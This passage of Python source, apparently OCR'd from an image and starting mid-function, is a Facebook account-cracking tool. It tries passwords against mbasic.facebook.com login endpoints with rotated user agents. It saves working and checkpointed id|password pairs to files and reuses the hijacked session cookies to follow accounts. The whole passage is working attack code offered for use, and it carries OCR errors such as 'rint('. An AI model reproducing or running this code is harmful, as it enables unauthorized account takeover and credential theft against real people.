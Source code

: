 				print( f'\r\x1b[1;91m [ TRUONG-CP ] {idf} | {pw}')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				coki=po.cookies.get_dict()
				coki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r\x1b[1;92m [ TRUONG-OK ] {idf} | {pw}')
				wrt =('%s - %s' % (idf,pw))
				ok.append(wrt)
				open('/sdcard/ids/ok.txt','a').write('%s\n' % wrt)
				follow(ses,coki)
				break

			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
def free(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	sys.stdout.write('\r %s[ TRUONG ] %s•%s • OK:%s • CP:%s  '%(bi,loop,len(id2),len(ok),cp)),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			pw = pw.lower()
			ses.headers.update({"Host":'mbasic.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://mbasic.facebook.com/login/save-device/'"}
			ses.headers.update({"Host":'mbasic.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				rint( f'\r\x1b[1;91m [ TRUONG-CP ] {idf} | {pw}')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				coki=po.cookies.get_dict()
				coki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r\x1b[1;92m [ TRUONG-OK ] {idf} | {pw}')